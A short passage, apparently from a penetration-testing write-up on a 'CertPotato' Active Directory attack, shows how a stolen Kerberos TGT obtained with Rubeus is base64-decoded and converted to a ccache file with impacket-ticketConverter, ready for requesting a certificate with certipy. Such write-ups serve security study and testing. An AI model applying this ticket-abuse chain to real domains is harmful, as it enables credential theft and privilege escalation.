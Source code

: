 ![Rubeus](/assets/img/CertPotato/Rubeus.png)


We obtain a valid TGT in base64. We can now use our Kali machine to request a certificate using **certipy**. To do this, we must first convert the base64 encoded kirbi file into a ccache file:

```bash
cat ticket.kirbi_b64
base64 -d ticket.kirbi_b64 > ticket.kirbi
impacket-ticketConverter ticket.kirbi ticket.ccache
```
![Convert ticket](/assets/img/CertPotato/convert.png)

